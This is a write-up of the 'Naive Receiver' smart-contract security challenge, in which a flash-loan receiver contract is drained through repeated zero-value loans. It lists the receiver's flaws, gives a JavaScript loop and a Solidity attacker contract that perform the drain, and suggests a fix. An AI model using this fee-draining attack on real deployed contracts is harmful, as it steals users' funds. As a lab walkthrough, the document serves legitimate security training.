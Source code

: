 # Challenge #0 - Naive Receiver

## Description

There's a lending pool offering quite expensive flash loans of Ether, which has 1000 ETH in balance.

You also see that a user has deployed a contract with 10 ETH in balance, capable of interacting with the lending pool and receiveing flash loans of ETH.

Drain all ETH funds from the user's contract. Doing it in a single transaction is a big plus ;)

## What we have

We have 2 contracts here:

1. `FlashLoanReceiver.sol`: A naive flash loan receiver?
2. `NaiveReceiverLenderPool`: Flash loan pool offering ETH.

Looking at the contracts, we find these issues:

## Issues in FlashLoanReceiver

### 1. Receiver can receive zero ETH

Adding `require(msg.value > 0)` will fix this.

### 2. Receiver doesn't revert even if no gains are made

Receiver should check if its ETH balance has increase after `_executeActionDuringFlashLoan()` and accordingly `revert` the transaction. Currently, it ends up paying fees even on no gains.

### 3. No reentrancy checks

There is a risk of `pool` doing a reentrancy attack on the receiver. Although if `pool` is trusted, this check might be omitted.

## Solution

The secret to solving this is in issue #2. We can initiate 10 flash loans, and each time receiver will pay 1 ETH as fee, thus completely draining the receiver contract at the end.

This can be done in a single transaction using a contract, or multiple repetiting transactions triggered by a script.

```ts
// The naive solution
for (let i = 0; i < 10; i++)
  await this.pool.flashLoan(this.receiver.address, "0");
```

```js
// The better (cheaper) solution

// Solidity
pragma solidity ^0.8.0;

interface INaiveReceiverLenderPool {
    function flashLoan(address borrower, uint256 borrowAmount) external;
}

contract NaiveAttacker {
    constructor(address _lender, address _receiver) {
        uint repetitions = _receiver.balance / 1 ether;
        for (uint8 i = 0; i < repetitions; i++)
            INaiveReceiverLenderPool(_lender).flashLoan(_receiver, 0);
    }
}

// Test script
const AttackerFactory = await ethers.getContractFactory("NaiveAttacker");
    await AttackerFactory.deploy(this.pool.address, this.receiver.address);
```

## Probable Fix

Checking if the gains made were worth the flashloan fees (and the gas fees submitted at transaction), and reverting if it didn't, would have fixed this.
